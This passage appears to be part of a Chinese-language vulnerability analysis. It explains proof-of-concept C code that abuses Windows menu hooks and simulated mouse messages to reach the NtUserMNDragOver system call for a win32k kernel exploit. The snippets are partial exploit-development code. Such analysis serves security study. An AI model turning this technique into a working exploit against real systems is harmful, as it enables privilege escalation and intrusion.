 hWndMain窗口创建完成后，代码会调用TrackPopupMenuEx()来显示hMenuRoot，目的是为了将窗口消息存储至hWndMain的消息栈中，而main()函数的消息循环可以通过GetMessageW()和TranslateMessage()来直接获取消息栈中的信息，并执行窗口进程钩子，然后调用WindowHookProc()：BOOL bOnDraging = FALSE;

```
….
LRESULT CALLBACK WindowHookProc(INT code, WPARAM wParam, LPARAM lParam)
`{`
tagCWPSTRUCT cwp = (tagCWPSTRUCT )lParam;
if (!bOnDraging) `{`
return CallNextHookEx(0, code, wParam, lParam);
`}`
….
```

由于变量bOnDraging目前还未设置，WindowHookProc()函数将会直接调用CallNextHookEx()来获取下一个可用的钩子。这将触发一次EVENT_SYSTEM_MENUPOPUPSTART事件，而事件钩子可以捕捉到这个事件，并传递给DisplayEventProc()。UINT iMenuCreated = 0;



```
VOID CALLBACK DisplayEventProc(HWINEVENTHOOK hWinEventHook, DWORD event, HWND hwnd, LONG idObject, LONG idChild, DWORD idEventThread, DWORD dwmsEventTime)
`{`
switch (iMenuCreated)
`{`
case 0:
SendMessageW(hwnd, WM_LBUTTONDOWN, 0, 0x00050005);
break;
case 1:
SendMessageW(hwnd, WM_MOUSEMOVE, 0, 0x00060006);
break;
`}`
printf(“[] MSGn”);
iMenuCreated++;
`}`
```

由于这是DisplayEventProc()第一次执行，iMenuCreated的值为0，因此代码中的“case 0”将会执行，并通过SendMessageW()将WM_LMOUSEBUTTON窗口消息发送给hWndMain来选择hMenuRoot菜单项(0x5, 0x5)。消息显示在hWndMain的窗口消息队列中之后，iMenuCreated会自增。

hWndMain接下来会处理WM_LMOUSEBUTTON消息，并选择hMenu，最终显示hMenuSub子菜单。接下来会触发第二个EVENT_SYSTEM_MENUPOPUPSTART事件，并再次执行DisplayEventProc()。这一次，iMenuCreated的值变成了1，此时代码会使用SendMessageW()来让鼠标光标移动到桌面的(0x6, 0x6)位置。由于此时的鼠标左键仍处于已点击的状态，所以这样就完成了之前提到的“拖拽”行为。接下来，iMenuCreated又会自增，并在main()中的消息循环中执行下列代码：

```
CHAR buf[0x100] = `{` 0 `}`;
POINT pt;
pt.x = 2;
pt.y = 2;
…
if (iMenuCreated &gt;= 1) `{`
bOnDraging = TRUE;
callNtUserMNDragOverSysCall(&amp;pt, buf);
break;
`}`
```
